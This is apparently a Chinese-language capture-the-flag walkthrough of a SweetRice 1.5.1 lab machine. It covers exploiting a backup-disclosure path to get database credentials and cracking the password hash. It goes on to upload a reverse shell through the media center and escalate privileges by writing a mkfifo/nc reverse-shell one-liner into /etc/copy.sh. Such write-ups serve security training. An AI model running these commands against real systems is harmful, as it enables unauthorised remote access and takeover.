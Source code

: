 找到一个漏洞可以查看到数据库的漏洞

```
SweetRice 1.5.1 - Backup Disclosure

http://localhost/inc/mysql_backup
```

![image.png](https://s2.loli.net/2025/04/24/K7CQzYnUmJF9T4q.png)

在我们找到的/content中 在sql文件中找到了账户和密码 密码得去(解密)[https://crackstation.net/]一下

![image.png](https://s2.loli.net/2025/05/05/357twrl1YvVJdoi.png)


## 依旧信息收集

媒体中心有上传文件的地方 直接上传反弹shell 但php传不进去 只能改格式

![image.png](https://s2.loli.net/2025/05/05/MD7bdpAzEY2oj5W.png)

![image.png](https://s2.loli.net/2025/05/05/G8euDsr21XbwHnx.png)

## 提权
发现文件夹有个mysql的l登录文件 是账户和密码  登进去看看有什么信息吗

![image.png](https://s2.loli.net/2025/05/05/iCbVy5LqR1WnsYM.png)

无信息

![image.png](https://s2.loli.net/2025/05/05/yWqU5CP7znBxZl8.png)

发现一个脚本


那就想办法利用这个脚本

![image.png](https://s2.loli.net/2025/05/05/dyHFfrSEZlVtOa2.png)


弄巧成拙了 这样爆了参数问题的错

![image.png](https://s2.loli.net/2025/05/05/kNaXE85Wf2oIPTy.png)

就把原本的代码刚好就是反弹shell 把ip改成我们自己的就可以

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.40.203 6666 > /tmp/f" > /etc/copy.sh
```

![image.png](https://s2.loli.net/2025/05/05/dLJ9P2BqgWCEF7K.png)

![image.png](https://s2.loli.net/2025/05/05/Ulc7iQo3jmJxqOY.png)

